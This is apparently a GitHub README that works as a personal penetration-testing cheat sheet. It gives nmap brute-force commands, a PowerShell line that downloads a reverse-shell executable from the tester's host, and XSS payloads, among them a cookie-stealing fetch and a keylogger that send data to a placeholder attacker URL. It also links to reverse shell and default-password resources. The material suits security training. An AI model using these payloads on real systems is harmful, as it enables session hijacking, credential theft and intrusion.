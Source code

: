  <!-- <h1 align='center'> Penetration time</h1> -->
[![Typing SVG](https://readme-typing-svg.demolab.com?font=Bitter&weight=500&size=40&pause=1000&color=3C4CFF&background=AC51FF00&width=500&height=80&lines=P3netrati0n+T1me!)](https://git.io/typing-svg)
<img src='https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExYWM2NWI0ZDIwMjA3ZWIyYWRiZmEyYzA5NTFlNThmNTFhYWI1MWE0ZiZlcD12MV9pbnRlcm5hbF9naWZzX2dpZklkJmN0PWc/3oz8xA9gtnyVDPZJHW/giphy.gif' width='250'/>
<h1>My pentesting cheat sheet, where I share "hotkey" tools and the same things.</h1>
There is a :
<ol>
	<li> <a href='https://github.com/Kode-n-Rolla/pentesting_time/tree/main/network_tools'>network tools</a>
  	<li> <a href='#n1'>command examples</a>
  	<li> <a href='#n2'>payloads</a>
  	<li> <a href='#n3'>helpful sites</a>
	<li> <a href='#n4'>tools</a>
	<!--<li> cheat sheet injections
  	<li> shells!
	<li> resume my stars-->
</ol>

<h2 align='center' id='n1'><em> Example Commands</em></h2> 
<h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Remote Desktop Protocol (rdp)</h3>
  <code>xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:&lt;TARGET_IP> /u:&lt;USERNAME> /p:&lt;'PASSWORD'></code>
  <p><code>xfreerdp /v:&lt;TARGET_IP> /u:&lt;USERNAME> /p:&lt;PASSWORD> +clipboard</code>
	
<h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;To get stable shell from unstable from PowerShell</h3>
  <code>powershell -c "Invoke-WebRequest -Uri 'http://&lt;LOCAL_IP>:&lt;PORT>/&lt;FILENAME.exe>' -OutFile 'C:\Windows\Temp\&lt;FILENAME.exe>'"</code>, where filename is the reverse shell
  
<h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Commands to find in:</h3>
<h4>&nbsp;&nbsp;&nbsp;Linux</h4>
	<p> <code>find / -type f</code> - Find all files in / directory
	<p> <code>find / -type f | grep 'flag'</code> - Find all files with 'flag' in file name
	<p> <code>find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null</code> - Find all path files with ‘config’ 
		
<h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Nmap</h3>
Need to <a href='https://github.com/vulnersCom/nmap-vulners/archive/master.zip'>download</a> script files from github and install it. Thanks for that, Vulners Team!

   <p> <code> Nmap -Pn &lt;TARGET_IP> --script=vulnerse.nse -p &lt;PORT(S)></code> - Checking for a vulnerability in the software on the server.
   <p> <code> nmap --script ssh-brute -p22 &lt;TARGET_IP> --script-args userdb=users.lst,passdb=passwords.lst</code> - Checking brute force resistance on ssh
   <p> <code> nmap -d --script ftp-brute -p &lt;TARGET_IP></code> - Checking brute force resistance on ftp
   <p> <code> nmap -sV --script=mysql-empty-password &lt;TARGET_IP></code> - Checking mysql anonymous login
   <p> <code> nmap --script mysql-brute -p 3306 &lt;TARGET_IP> --script-args userdb=users.lst, passdb=passwords.lst</code> - Attempts to select a pair of login/password to enter the mysql database
   <p> <code> nmap -sV -p &lt;PORT> –script http-enum &lt;TARGET_IP></code> - Search for hidden folders and files
   <p> P.S. If CMS, research <code>^&t;name_0f_CMS_0r_DB> brute force nmap</code>
	
<h2 align='center' id='n2'><em>Payloads</em></h2>
    <h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;XSS Payloads</h3>
    <li> <b>Proof Of Concept (PoC)</b> - <code><script>alert('Success XSS!');</script></code>
      <p>This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text "Success XSS".
    <li> <b>Session Srealing</b> - <code><script>fetch('url/steal?cookie=' + btoa(document.cookie));</script></code>
      <p>Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
    <li> <b>Key Logger</b> - <code><scripr>document.onkeypress = function(v) {fetch('url/log?key=' + btoa(v.key));}</script></code>
      <p>The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
    <li> <b>Business Logic</b> - <code><script>user.changeEmail('your@email.com');</script></code>
      <p>This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail().
    <li><b>Polyglots</b> - <code>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Success XSS!'))//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Success XSS!')//>\x3e</code>
      <p>An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.
	      
        
<h2 align='center' id='n3'><em>Sites</em></h2>
      <li> <a href='https://crackstation.net/'>crackstation.net</a> - online password hash cracker
      <li> <a href='https://www.base64encode.org/'>Base64</a> encode/decode
      <li> <a href='https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet'>Reverse Shell Cheat Sheet</a>
      <li> <a href='https://hashes.com/en/tools/hash_identifier'>Identify hash types</a>
      <li> <a href='https://devhints.io/bash'>Bash scripting</a> cheat sheet
      <li> <a href='https://gchq.github.io/CyberChef/'>CyberChef</a> - encode/decode service
      <li> <a href='https://www.kirsle.net/wizards/flask-session.cgi'>Flask Session Cookie Decoder</a>
      <li> <a href='https://viewdns.info/'>ViewDNS</a> Offers reverse IP Lookup. OSINT tool. 
      <li> <a href='https://www.shodan.io/'>ViewDNS</a> is the world's first search engine for Internet-connected devices. OSINT tool.
      <li> <a href='https://search.censys.io/'>Censys Search</a> Can provide a lot of information about IP addresses and domains. OSINT tool.
      <li> <a href='https://cirt.net/passwords'>CIRT.net</a> Dafault Passwords service
      <li> <a href='https://default-password.info/'>Default-Password.info</a> Dafault Passwords service
      <li> <a href='https://datarecovery.com/rd/default-passwords/'>Datarecovery.com</a> Dafault Passwords service
      <li> <a href='https://wiki.skullsecurity.org/index.php?title=Passwords'>This</a> wiki page includes the most well-known collections of passwords.
	      
        
<h2 align='center' id='n4'><em>Tools</em></h2>
	<ol>
		<li><h3><a href='https://www.kali.org/tools/ncurses-hexedit/'>Hexeditor</a></h3>
	        	<p> Tools for change files signature. <a href='https://en.wikipedia.org/wiki/List_of_file_signatures'>Link</a> to Wiki with List of file signatures. 
		<li><h3><a href='https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master'>Tool</a> for hash identification.</h3> 
			<p> Python file. Powerful.
		<li><h3><a href='https://www.kali.org/tools/crunch/'>Crunch</a></h3>
		   <p> This is one of many powerful tools for creating an offline wordlist. With crunch, you can specify numerous options, including min, max, and options. The following example creates a wordlist containing all possible combinations of 3 characters, including 1-5 and qwerty. You can use the -o argument to save. <p>Example: <code>crunch 3 3 12345qwerty -o cranch.txt</code>.
		<li><h3><a href='https://github.com/therodri2/username_generator'>Username generator</h3>
			<p>Could help create a list with most of the possible combinations if we have a first name and last name. Use git clone and <p><code>python3 username_generator.py -h</code> shows the tool's help message and optional arguments.
	</ol>
